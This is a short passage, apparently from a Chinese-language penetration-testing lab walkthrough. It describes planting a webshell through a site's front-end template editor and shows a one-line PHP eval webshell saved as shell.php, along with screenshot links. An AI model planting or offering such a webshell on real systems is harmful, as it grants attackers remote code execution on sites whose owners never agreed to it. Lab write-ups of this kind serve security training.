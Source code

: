 
在前台模板处可以插入和新建webshell

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2019.png)

新建shell.php

```csharp
<?php eval($_POST[2]);?>
```

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2020.png)
